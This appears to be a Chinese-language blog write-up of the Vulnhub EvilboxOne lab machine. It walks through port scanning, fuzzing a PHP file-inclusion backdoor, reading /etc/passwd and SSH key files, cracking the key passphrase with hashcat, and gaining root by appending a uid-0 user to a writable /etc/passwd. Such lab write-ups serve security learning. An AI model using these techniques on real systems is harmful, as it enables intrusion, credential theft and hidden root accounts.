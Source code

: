 # Vulnhub-EvilboxOne



## 环境配置

新买的Intel nuc华尔街到了，可以搭建靶场了，很完美

不知道vmware桥接为什么失败，看官方说这个靶机推荐在virtualbox搭建

下载了个百M的安装上确实很小一个

![image-20221215103821186](./Vulnhub-EvilboxOne/image-20221215103821186.png)



## 初步信息收集

### 端口扫描

发现开启了22与80端口

```bash
nmap -p- 172.20.10.7
nmap -p22,80 -sV 172.20.10.7
```

![image-20221215104620385](./Vulnhub-EvilboxOne/image-20221215104620385.png)

### 网站探测

打开网站啥都没有，一般这种情况就是没找到具体站点看来得扫一扫

![image-20221215104904527](./Vulnhub-EvilboxOne/image-20221215104904527.png)

dirsearch扫一下，发现关键路径

![image-20221215105209753](./Vulnhub-EvilboxOne/image-20221215105209753.png)

robots.txt并没有什么有效信息

![image-20221215105252487](./Vulnhub-EvilboxOne/image-20221215105252487.png)

再对secret下进行扫描(默认字典里是没有的，网上之前收集了一个字典)

```bash
dirsearch -u http://url/secret -w path.txt

```



![image-20221215110013372](./Vulnhub-EvilboxOne/image-20221215110013372.png)

### wfuzz探测

网站直接访问为空，应该就是留了个后门

既然是evil，肯定有隐藏参数，用wfuzz进行一波爆破

```bash
wfuzz -u "http://172.20.10.7/secret/evil.php?FUZZ=id" -w /usr/share/wordlists/wfuzz/general/common.txt --hw 0
```

先后尝试了命令执行和直接文件包含，发现文件包含有结果，顺便得到参数名command

![image-20221215111438918](./Vulnhub-EvilboxOne/image-20221215111438918.png)

## 文件包含利用

既然如此那么我们就可以看看evil.php长啥样,访问`http://172.20.10.7/secret/evil.php?command=php://filter/convert.base64-encode/resource=evil.php`

解码后发现

```php
<?php
    $filename = $_GET['command'];
    include($filename);
?>
```

尝试日志包含RCE，但没找到apache日志路径，不过也得到一些“有用”的信息，在`/etc/apache2/sites-available/000-default.conf`中

```conf

<VirtualHost *:80>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

另外/proc/self/environ也不能访问所以也没办法靠猜了

看看历史命令吧，发现有俩用户一个`root`另一个叫`mowree`

```

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

历史命令无`/home/mowree/.bash_history`,之后尝试读取`/home/mowree/.ssh/authorized_keys`发现

```ssh
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAXfEfC22Bpq40UDZ8QXeuQa6EVJPmW6BjB4Ud/knShqQ86qCUatKaNlMfdpzKaagEBtlVUYwit68VH5xHV/QIcAzWi+FNw0SB2KTYvS514pkYj2mqrONdu1LQLvgXIqbmV7MPyE2AsGoQrOftpLKLJ8JToaIUCgYsVPHvs9Jy3fka+qLRHb0HjekPOuMiq19OeBeuGViaqILY+w9h19ebZelN8fJKW3mX4mkpM7eH4C46J0cmbK3ztkZuQ9e8Z14yAhcehde+sEHFKVcPS0WkHl61aTQoH/XTky8dHatCUucUATnwjDvUMgrVZ5cTjr4Q4YSvSRSIgpDP2lNNs1B7 mowree@EvilBoxOne
```

关于什么是authorized_keys

我们需要本地机器ssh访问远程服务器时为了减少输入密码的步骤，基本上都会在本地机器生成ssh公钥，然后将本地ssh公钥复制到远程服务器的.ssh/authorized_keys中，这样就可以免密登录了

并且一般用户的 .ssh 目录下会存在三个文件：
```
id_rsa : 私钥。
authorized_keys : 认证关键字文件。
id_rsa.pub : 公钥
```

## 获取私钥远程登录

将私钥下载下来后登录以后发现使用私匙进行登录时发现还需要密码才可以

![image-20221215142459712](./Vulnhub-EvilboxOne/image-20221215142459712.png)

那么就需要破解了,通过`locate ssh2john`定位位置

```bash
python3 /usr/share/john/ssh2john.py id_rsa > rsacracked
```

hashcat指定模式爆破

```
hashcat -m 22911 1.txt rockyou.txt --force
```

拿下密码unicorn

![image-20221215145304885](./Vulnhub-EvilboxOne/image-20221215145304885.png)

成功登录ssh

![image-20221215145516177](./Vulnhub-EvilboxOne/image-20221215145516177.png)



## 提权

passwd可写

![image-20221215150201751](./Vulnhub-EvilboxOne/image-20221215150201751.png)

生成带salt的密码

```
perl -le 'print crypt("test","addedsalt")''
```

写入

```
echo "test:adMpHktIn0tR2:0:0:User_like_root:/root:/bin/bash" >>/etc/passwd
```





提权成功

![image-20221215151013432](./Vulnhub-EvilboxOne/image-20221215151013432.png)
